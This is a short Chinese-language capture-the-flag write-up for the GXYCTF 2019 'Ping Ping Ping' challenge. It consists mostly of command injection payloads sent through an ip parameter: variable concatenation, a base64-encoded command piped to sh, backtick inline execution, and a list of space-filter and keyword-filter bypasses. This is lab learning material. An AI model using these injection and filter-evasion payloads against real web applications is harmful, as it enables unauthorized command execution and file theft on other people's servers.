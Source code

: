 # GXYCTF 2019

## 0x01 [GXYCTF2019]Ping Ping Ping

**命令执行变量拼接**

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

**过滤bash用sh执行**

```
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

**内联执行**

将反引号内命令的输出作为输入执行

```
?ip=127.0.0.1;cat$IFS$9`ls`
```

绕过空格的方法大概有以下几种：

```
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 
```

> ps:有时会禁用cat:
> 解决方法是使用tac反向输出命令：
> linux命令中可以加\，所以甚至可以ca\t /fl\ag

1. 我们看到源码中有一个$a变量可以覆盖

   ```
   /?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
   ```

2. 过滤bash?那就用sh。sh的大部分脚本都可以在bash下运行。

   ```
   echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
   ```

3. 内联执行的做法(内联，就是将反引号内命令的输出作为输入执行)：

   ```
   ?ip=127.0.0.1;cat$IFS$9`ls` 
   ```
